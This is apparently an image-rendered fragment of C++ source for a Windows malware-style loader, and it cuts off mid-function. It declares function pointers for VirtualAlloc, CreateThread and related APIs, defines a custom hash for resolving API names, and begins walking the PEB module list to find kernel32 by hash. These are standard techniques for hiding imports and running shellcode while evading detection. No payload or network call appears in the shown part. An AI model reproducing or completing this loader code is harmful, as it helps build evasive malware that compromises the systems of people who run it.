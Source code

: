 ```cpp

typedef HMODULE(WINAPI *fnGetModuleHandleA)(
  LPCSTR lpModuleName
);

typedef FARPROC(WINAPI *fnGetProcAddress)(
  HMODULE hModule,
  LPCSTR  lpProcName
);

typedef PVOID(WINAPI *fnVirtualAlloc)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

typedef PVOID(WINAPI *fnCreateThread)(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);

typedef PVOID(WINAPI *fnWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static DWORD calcMyHashBase(LDR_MODULE* mdll) {
  char name[64];
  size_t i = 0;

  while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
    name[i] = (char)mdll->dllname.Buffer[i];
    i++;
  }
  name[i] = 0;
  return calcMyHash((char *)CharLowerA(name));
}

static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
```